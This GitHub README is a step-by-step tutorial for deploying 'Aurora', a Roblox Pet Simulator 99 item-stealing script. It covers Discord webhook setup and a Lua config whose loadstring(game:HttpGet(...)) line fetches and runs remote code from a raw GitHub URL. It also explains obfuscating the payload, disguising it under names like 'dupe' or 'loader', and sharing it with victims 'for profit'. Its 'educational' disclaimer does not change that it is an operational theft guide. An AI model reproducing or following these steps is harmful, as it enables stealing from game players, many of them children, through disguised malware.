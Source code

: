 # ❗❗❗❗DISCLAIMER❗❗❗❗
- **I had made a tutorial for my mailstealer (for pet simulator99) [Aurora](https://discord.gg/Eh7EX6dzAF) feel free to join my server this is a direct copy and paste of my tutorial from the discord**
- **This tutorial/tools are educational, iam not responsible for anything you do**
- **tools/tutorial will be updated every now**
# tutorial
Alright chat this is a tutorial  
Since everyone's stupid and can't understand lua 😭  
And I don't have the resources to host a 24/7 mailsteal creator bot So here's a tutorial So I'll be explaining most of the shit  
# 1 getting your webhook
video tutorial below:  
[![Click me!](https://img.youtube.com/vi/video-id/0.jpg)](https://github.com/Enivzoy/Aurora/raw/main/pics/webhook.mp4)  
From my [partner<3](https://discord.gg/CxhY6rpUCA)  
  
Cant download? Try this Instead  
  
if you cannot get webhook on discord mobile then discord on the web(chrome) + desktop mode  
  
Create A new discord server  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/52323e22-8b40-4ae5-8be5-b35579bc0e27)  
Name it whatever you want it doesnt matter  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0e446427-0d39-46c9-be2f-3a276d2ad3a7)  
edit your general channel  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/18304642-97cc-465a-9117-8a97d6b7cccf)  
go to integrations  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/818412ec-e331-4353-8d55-95f81cad3e66)  
then click create a webhook  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8448d93c-1328-4f44-8739-752fec73d0ab)  
by default you should see a spidey bot  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/04880695-ae31-4c91-947f-29f6f6925f3c)  
Click copy webhook url and ur done  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/f5b0b964-2030-47b0-b407-7bd9286f9492)  
 


# 2: setting up the lua code
# TIP FOR ANDRIOD USERS
- get [X-Plore File manager](https://play.google.com/store/apps/details?id=com.lonelycatgames.Xplore&hl=en&gl=US&pli=1)
<details>  
  <summary>Aurora Mailstealer</summary>  
  
Get the script from ⁠[script channel from discord](https://discord.com/channels/1226830019939143690/1227851051634266193)
It should look like this:
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
min_rap = 500000 -- minimum rap of each item you want to get sent to you.

keySystemEnabled = true -- wether you want to enable key system or not
hubName = "Hubname | Keysystem" -- self explain
keyLink = "https://example.com/" -- the link wehere yoi cam get your keys this can be a discord invite
keys = {"key1", "key2", "andsoon"} -- the keys for your key system

loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Utilz/main/lua/rblx/AuroraTils/mainframe'))()
```
Now I will update the script more  
So don't copy the script from here incase a major rewrite/bugs go join the [discord](https://discord.gg/Eh7EX6dzAF) for updated script  
So as per [update 4.6/keysystem1.2](https://discord.com/channels/1226830019939143690/1227851051634266193/1240374560046714910) the script is updated   
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  

  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
# key system (ohh boi this gon be hard to explain(i think so?))  
So key system is like a gui that opens when you run the script  
You can enable this (it's enabled by default) by setting the `keySystemEnabled` value to true  
If you dont want key system  
Just set it to false `keySystemEnabled = false`  
Or remove everything related to it (keySystemEnabled, hubName, keyLink, keys !!!!DO NOT TOUCH THE LOADSTRING!!!!)  
I think you can figure rest of the stuff out  
now after doing everything you save your script to a file call it mailsetaler.txt and save it somewhere(using notepad or a file editor) then go to step 3(part2)  
Make sure to [DM](https://discord.gg/Eh7EX6dzAF) me if you cant follow something  I'll help you   
  
use https://enivzoy.github.io/Aurora/ to generate your script for better user interface
  
</details>  
<details>  
  <summary>Tobi Mailstealer</summary>  
   
[Aurora](https://discord.gg/Eh7EX6dzAF) is 99.99% better
use aurora instead, but since im nice ill do tobis too  
get the script from tobis script channel the currrent one at 5/28/24 is V6.1  
i wont be sharing his discord server upto you to find it or use aurora instead    
it should look something like this  
  
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
Support = true -- if you dont want to support me make this "false" (without quotes). 50% chance I get hit if its 10+ huges or 500+ mil rap
min_rap = 500000 -- minimum rap of each item you want to get sent to you.
loadstring(game:HttpGet("USE AURORA INSTEAD"))()
```
  
don't copy the script from here incase a major rewrite/bugs go join tobis server for a updated one
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  

Now support, Ssupport means that if you get 10+ huges or 500+ mil rap then it flips a coin(math.random) and if its (>0.5) then it will send the hit to tobi, for your sake its upto you to set this to false  
  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
  
this is it for tobis but aurora is wayy better so join [Aurora](https://discord.gg/Eh7EX6dzAF)
continue following step 3 : obfuscation & uploading
  
</details>   
  
# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join **[moonsex](https://discord.gg/2Eah77h8KC)**  
you dm this bot  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/614c946d-1b90-4070-9713-3aff416ad181)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/ba5a7b3c-6d6e-41f5-9731-30eff687b29e)  
click this   
![image](https://github.com/Enivzoy/Aurora/assets/130647229/7852cefd-17f3-4808-8b96-72e3c1fd1470)   
then you click this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/30c3c77e-a9ad-47b2-bf5f-757a62226c99)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/467c470e-2fea-46dd-9d8f-811f8d354d60)  
click this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/e36259f7-965a-41bd-b855-d0cdebfba9ed)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/2c3b7233-b389-4c4f-b918-97fbed434492)  
click create repo after filling in everything  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8146420e-d331-4175-a5a6-183270456be8)  
it will now show this   
![image](https://github.com/Enivzoy/Aurora/assets/130647229/c36db808-0252-477f-a763-bda51feb6da5)  
click uploading an existing file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/65ce8aed-6b7f-49bd-9200-ed460b265f27)  
it will open this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a744f62c-e5d8-4728-86cd-2f1fb47042a3)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0df73a16-4f5b-4372-944d-4c44485a0d7d)  
drag and drop your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/859fe5e9-cf57-4530-bdb7-2eb17931acdd)  
once uploaded click commit changes  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/690a548f-1d3d-4685-9ecc-68ea0c0e2f71)  
if youve done everything right to this point it should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/476a12f6-2bf9-4262-8346-f0525c82275b)  
click your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8f64d269-0764-4c5b-8f35-0f716d4ddcaa)  
it should open this up, then click raw  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a4427ac1-3f2d-4e53-a4a1-4800e338f9fe)  
you will see this mess  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/eb6404dd-0960-4d03-9a61-722eb23c128b)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/ea75ed82-8545-44f4-ac3c-4798eee14153)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc
